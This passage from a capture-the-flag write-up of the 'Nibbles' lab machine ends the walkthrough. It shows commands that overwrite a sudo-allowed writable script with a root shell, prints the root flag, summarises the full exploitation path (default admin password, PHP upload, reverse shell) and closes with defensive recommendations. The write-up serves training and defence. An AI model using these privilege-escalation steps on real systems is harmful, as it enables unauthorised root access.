


---
### 4.2 Root via Writable NOPASSWD Script

Because the script is user-writable and invokable with `sudo`, replace it with a root shell payload:

```bash
cat > /home/nibbler/personal/stuff/monitor.sh << 'EOF'
#!/bin/bash
/bin/bash -p
EOF
chmod +x /home/nibbler/personal/stuff/monitor.sh
```

Execute with exact sudo-allowed absolute path:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
whoami
id
cat /root/root.txt
```

Result:
- `whoami` -> `root`
- `root.txt` -> `217218640ff771ae270faa9a3de325ae`




---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerated open ports (`22`, `80`) and identified Apache + Nibbleblog.
2. Discovered `/nibbleblog/` and version `v4.0.3`.
3. Abused exposed `content/private/` listing to enumerate user `admin`.
4. Logged into admin panel with `admin / nibbles`.
5. Exploited My image plugin upload to gain PHP command execution.
6. Established reverse shell as `nibbler` and retrieved user flag.
7. Abused `NOPASSWD` sudo on writable `monitor.sh` to escalate to root and capture root flag.

---
## Defensive Recommendations

- Disable directory listings and restrict access to `content/private/` and backup/config files.
- Enforce strong admin passwords and remove default or guessable credentials on CMS installs.
- Patch or disable risky plugins (arbitrary upload / PHP execution) and keep PHP versions supported.
- Audit `sudoers` for `NOPASSWD` on user-writable scripts; restrict file permissions on invoked paths.
